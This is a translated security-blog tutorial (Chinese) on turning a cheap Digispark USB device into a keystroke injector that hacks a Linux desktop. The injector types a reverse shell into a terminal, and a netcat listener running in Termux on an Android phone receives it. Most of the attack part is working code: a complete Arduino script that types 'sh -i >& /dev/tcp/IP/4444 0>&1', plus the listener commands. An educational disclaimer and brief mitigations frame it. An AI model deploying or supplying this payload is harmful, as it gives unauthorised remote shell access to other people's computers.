

# 用最便宜的 USB 橡皮鸭和 Android 终端(Termux)黑一个 Linux 桌面

> 原文：<https://infosecwriteups.com/hack-a-linux-desktop-with-the-cheapest-usb-rubber-ducky-and-the-android-terminal-termux-d8ec62ad25ac?source=collection_archive---------1----------------------->


纳赫尔·阿卜杜勒·哈迪在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片

上次，我写了一篇关于用不到 3 美元制作一个 USB 橡皮鸭的文章，我做了一个简单的测试，并附上了如何在出错时排除故障。

[](/make-usb-rubber-ducky-with-less-than-3-fa72dac9e4de) [## 用不到 3 美元做一个 USB 橡皮鸭

### USB 橡皮鸭和 u 盘很像，但又不一样。因为它会注入一些有效载荷的击键…

infosecwriteups.com](/make-usb-rubber-ducky-with-less-than-3-fa72dac9e4de) 

今天给大家讲解一下如何用最便宜的 USB 橡皮鸭和 Android 终端(Termux)黑一个 Linux 桌面。

**免责声明**:

> 本教程只是出于教育目的。我不建议你去黑别人，因为这是违法的。用自己的黑客实验室练习这个教程就行了。

如果你理解了上面的免责声明，那就开始吧。

## 准备—安装 netcat (netcat-openbsd)

为了帮助我们制作一个连接监听器，请在 **Termux** 中安装 netcat。

```
pkg install netcat-openbsd
```

确保你的手机和受害者的笔记本电脑有相同的网络。然后，检查 android 的 IP 地址。

```
ifconfig
```

我们的准备工作已经完成。

## 将有效载荷构建到 Digispark 中

用您的 Termux IP 地址更改 **192.168.0.113**

1.  **用** [**反向外壳生成器**](https://www.revshells.com) 生成净荷

设置 IP 和端口，并选择您最喜欢的反向脚本。



**2。创建 Arduino 脚本**

下面是我的算法:
1。按 Windows 键。
2。键入“终端”并按回车键，打开终端。
3。键入有效负载以连接到我的 termux
4。按回车键

以下是完整的脚本:

```
#include "DigiKeyboard.h"
void setup() {
}void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("terminal");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("sh -i >& /dev/tcp/**192.168.0.113**/4444 0>&1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  for (;;) {
    /*empty*/
  }}
```

如果你想要更多制作**鸭子脚本**的参考，我从[这里](https://github.com/CedArctic/DigiSpark-Scripts/tree/master/Reverse_Shell)得到。

**3。将您的代码编译到 Digispark**

不知道把代码编译到 digispark？
刚刚看了我上一篇把 Arduino 代码编译成 Digispark 的文章。

[](/make-usb-rubber-ducky-with-less-than-3-fa72dac9e4de) [## 用不到 3 美元做一个 USB 橡皮鸭

### USB 橡皮鸭和 u 盘很像，但又不一样。因为它会注入一些有效载荷的击键…

infosecwriteups.com](/make-usb-rubber-ducky-with-less-than-3-fa72dac9e4de) 

## 执行

用 Netcat 在 Termux 中制作一个简单的监听器

```
nc -lvnp 4444
```

将 Digispark 插入 Linux 的 USB 端口。Digispark 正在工作，你得到了外壳。

这是演示:

## 结论

很恐怖，对吧？你也可以黑掉其他操作系统，windows、macOS 和 Android 都可以随时通过键盘进行外部访问。

为了减轻这种攻击，您可以这样做:
1。千万不要相信任何 USB，
2。用标准用户运行你的计算机
3。关闭你的 USB 端口，用硅使其不可见。

感谢阅读，保持安全。

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)